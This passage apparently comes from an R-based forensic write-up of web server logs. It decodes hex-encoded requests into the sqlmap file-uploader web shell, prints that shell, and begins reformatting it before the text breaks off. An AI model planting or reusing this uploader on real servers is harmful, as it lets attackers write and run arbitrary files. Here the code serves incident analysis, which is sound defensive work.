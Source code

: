 I see 4 unique PHP files being utilized in the logs, all of which were
interacted with on September 2nd, which is obviously our most
interesting day. We’re definitely going to want to dig into this more.
Let’s start by digging into those hex values.

    hex_values <- suspicious_activity |>
        filter(str_detect(resource, "tmp.+\\.php")) |>
        mutate(hex = str_extract(resource, "0x[a-f0-9]+")) |>
        mutate(hex = str_replace(hex, "0x", "")) |>
        filter(!is.na(hex)) |>
        pull(hex) |>
        unique()

    convert_hex_to_string <- function(hex) {
        hex <- sapply(
            seq(1, nchar(hex), by=2),
            function(x) substr(hex, x, x + 1)
        )
        
        result <- gsub(
            '[^[:print:]]+', 
            '', 
            rawToChar(as.raw(strtoi(hex, 16L)))
        )
        return(result)
    }

    results <- unname(sapply(hex_values, convert_hex_to_string))
    cat(results)

    ## <?phpif (isset($_REQUEST["upload"])){$dir=$_REQUEST["uploadDir"];if (phpversion()<'4.1.0'){$file=$HTTP_POST_FILES["file"]["name"];@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}@chmod($dir."/".$file,0755);echo "File uploaded";}else {echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";}?>

Let’s clean that up a bit to make it easier to read.

    <?php
    if (isset($_REQUEST["upload"])) {
        $dir = $_REQUEST["uploadDir"];
        
        if (phpversion()<'4.1.0') { 
            $file = $HTTP_POST_FILES["file"]["name"];
            @move_uploaded_file(
                $HTTP_POST_FILES["file"]["tmp_name"], 
                $dir."/".$file
            ) or die();
        }
        else {
            $file=$_FILES["file"]["name"];
            @move_uploaded_file(
                $_FILES["file"]["tmp_name"], 
                $dir."/".$file
            ) or die();
        }
        